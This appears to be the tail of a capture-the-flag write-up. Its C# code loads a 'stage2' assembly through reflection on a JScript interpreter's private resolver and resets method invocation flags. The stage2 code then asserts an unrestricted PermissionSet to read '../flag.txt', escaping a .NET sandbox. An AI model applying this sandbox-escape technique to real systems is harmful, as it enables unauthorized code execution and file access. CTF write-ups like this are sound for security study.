 ```csharp  
           Object resolver = getPrivateField(jsShell, "_resolver");  
           shell.WriteLine("got resolver");

           // launch the stage2 assembly  
           shell.WriteLine("Launching assembly");  
           var args = new FunctionArgs();  
           var payload = new ValueExpression(stage2, SlimlineJScript.Domain.ValueType.String);  
           args.Parameters = new Expression[] { new Expression(payload) };  
           getMethod(resolver, "EvaluateFunction").Invoke(resolver, new object[] { null, "__global__.System.Reflection.Assembly.Load", args, null, true });

           var t = JScriptUtils.FindType("Stage2.Stage2", true);  
           var m = t.GetMethod("Run");  
           resetInvocationFlags(m);  
           shell.WriteLine("stage2 result: " + m.Invoke(null, new object[] { }));  
       }

   }  
}  
```

### Stage2

```csharp  
using System;  
using System.IO;  
using System.Security;  
using System.Security.Permissions;

namespace Stage2  
{  
   public class Stage2  
   {  
       public static String Run()  
       {  
           new PermissionSet(PermissionState.Unrestricted).Assert();  
           return File.ReadAllText("../flag.txt");  
       }  
   }  
}  
```

Original writeup
(https://gist.github.com/bennofs/6a4466cdc746a5b994a32cfa923a9e8e).